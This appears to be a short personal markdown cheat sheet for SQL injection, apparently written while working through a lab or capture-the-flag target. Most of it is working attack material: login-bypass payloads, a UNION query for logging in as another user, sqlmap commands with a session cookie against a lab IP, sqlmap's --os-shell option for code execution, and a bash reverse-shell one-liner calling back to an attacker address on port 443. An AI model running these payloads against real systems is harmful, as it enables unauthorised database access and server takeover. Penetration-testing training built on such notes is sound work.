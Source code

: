 # SQL Injection

# Enumirating SQL injections
SQL Injection 101, Login tricks

    admin' --
    admin' #
    admin'/*
    ' or 1=1--
    ' or 1=1#
    ' or 1=1/*
    ') or '1'='1--
    ') or ('1'='1--
    ....

    Login as different user (SM*) 
    ' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--

*Old versions of MySQL doesn't support union queries
https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/#LineCommentAttacks


## Using SQLMAP
```
sqlmap -u 'http://10.129.46.113/dashboard.php?search=any+query' --cookie="PHPSESSID=8v1dpb24ifokt2h2d0vq99q4br"
```
## RCE with SQLMAP
```
sqlmap -u 'http://10.129.46.113/dashboard.php?search=any+query' --cookie="PHPSESSID=8v1dpb24ifokt2h2d0vq99q4br" --os-shell
```
after you get a shell then its time to get a better shell
```
bash -c "bash -i >& /dev/tcp/10.10.14.14/443 0>&1"
```

# Getting around SQL
Show databases
```
show databses;
```
select a database
```
use <database name>
```
print tables
```
select * from <database>.<table>;
```
